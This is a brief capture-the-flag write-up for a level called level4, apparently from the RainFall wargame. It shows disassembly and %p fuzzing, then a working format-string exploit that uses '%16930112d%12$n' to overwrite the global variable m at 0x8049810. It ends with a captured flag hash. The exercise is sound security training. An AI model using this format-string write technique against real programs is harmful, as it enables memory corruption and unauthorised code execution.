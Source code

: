 ```
mov    0x8049810,%eax
cmp    $0x1025544,%eax

x 0x8049810
0x8049810 <m>:	0x00000000

```
cmp var m with `p 0x1025544 = 16930116`

fuzz the binary

```
level4@RainFall:~$ python -c 'print "AAAA" + " %p " * 30' | ./level4
AAAA 0xb7ff26b0  0xbffff754  0xb7fd0ff4  (nil)  (nil)  0xbffff718  0x804848d  0xbffff510  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141
```

```
level4@RainFall:~$ python -c 'print "AAAA" + " %12$x" ' | ./level4
AAAA 41414141
```

p 0x1025544 - 4 = 16930112

python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"' | ./level4 
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n" ' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a


